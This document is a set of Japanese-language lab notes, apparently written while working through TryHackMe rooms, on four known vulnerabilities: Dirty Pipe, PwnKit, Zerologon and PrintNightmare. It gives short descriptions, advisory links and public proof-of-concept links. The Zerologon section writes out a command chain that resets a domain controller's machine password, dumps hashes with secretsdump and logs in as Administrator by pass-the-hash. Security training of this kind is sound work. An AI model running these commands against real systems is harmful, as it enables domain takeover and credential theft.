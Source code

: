 ## CVE-2022-0847 (Dirty Pipe)

https://tryhackme.com/room/dirtypipe

- Linuxカーネル`5.16.11、5.15.25、5.10.102` で修正済。
- 読み取り権限のある任意のファイルに任意の内容を書き込み出来る。

[発見者のブログ記事](https://dirtypipe.cm4all.com/)  
[SUIDプログラムにシェルコードを挿入する手法](https://haxx.in/files/dirtypipez.c)

## CVE-2021-4034 (Pwnkit)

https://tryhackme.com/room/pwnkit

- pkexe の脆弱性を悪用した Linux のローカル権限昇格

[アドバイザリー](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)

[PoC](https://github.com/arthepsy/CVE-2021-4034)

修正済の場合、エクスプロイト実行時に pkexec はヘルプメニューを表示する。


## CVE-2020-1472 (Zero Logon)

https://tryhackme.com/room/zer0logon

- ドメインコントローラを乗っ取られる脆弱性
- マシンアカウントのパスワードをリセットする（パスワードなしにする）
- IVの値を0固定で暗号化していることが原因
- 2020年8月のパッチで修正

### PoC

https://github.com/SecuraBV/CVE-2020-1472

（パスワードリセット有）  
https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py

```sh
python zerologon-exploit.py DC01 <dc-ip>

sudo secretsdump.py -just-dc -no-pass DC01\$@<dc-ip>

evil-winrm -u Administrator -H <Local Admin Hash> -i MACHINE_IP
```

## CVE-2021-1675 / CVE -2021-34527 (PrintNightmare)

https://tryhackme.com/room/printnightmarehpzqlp8

- Windows 印刷Spoolerサービス脆弱性によるRCE

```sh
git clone https://github.com/tryhackme/CVE-2021-1675.git 
```
